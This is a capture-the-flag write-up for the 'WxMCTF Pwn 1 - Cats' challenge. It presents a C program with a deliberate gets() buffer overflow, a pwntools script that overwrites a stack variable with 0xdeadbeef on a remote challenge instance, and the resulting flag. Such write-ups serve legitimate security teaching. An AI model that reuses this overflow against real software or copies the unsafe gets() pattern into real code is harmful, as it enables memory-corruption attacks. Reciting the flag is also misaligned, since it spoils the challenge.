

# WxMCTF Pwn 1 - Cats
> I had to hide my secret so any MGCI cat-haters will never find it! Do you like cats?

## About the Challenge
We were given a source code (You can download the file [here](cats_mAxjvpN.c)) and an instance. Here is the content of the source code
```c
#include <stdio.h>
#include <stdlib.h>

void cats() {
    char hmm[40];

    puts("Do you like cats?");
    int trustNoOne = 0;
    gets(hmm);

    if(trustNoOne == 0xdeadbeef) {
        puts("hmmm... alright, here's my secret:\n");
        const char* flag = getenv("FLAG");
        if (flag == NULL) {
            printf("Flag not found!\n");
            exit(0);
        }
    printf("%s\n",flag);
    } else {
        puts(">:( you're not allowed to see my secret!");
    }
}

int main() {
    setvbuf(stdout, NULL, 2, 0);
    cats();
}
```

We need to change the value of the `trustNoOne` variable from `0` to `0xdeadbeef` to get the flag

## How to Solve?
To get the flag we need to exploit using buffer overflow to overwrite the `trustNoOne` variable

```python
#!/usr/bin/env python3
from pwn import *
p = remote('b03c9f7.678470.xyz', 32756)
payload = b'A' * 60 + p32(0xdeadbeef)
p.sendlineafter(b'Do you like cats?\n', payload)
p.interactive()
```

The script constructs a payload consisting of 60 bytes of the ASCII character `A` followed by a little-endian representation of the hexadecimal value `0xdeadbeef`. Run the instance and then run the program, and you will get the flag



```
wxmctf{c@t$_@R3_th3_B3$t}
```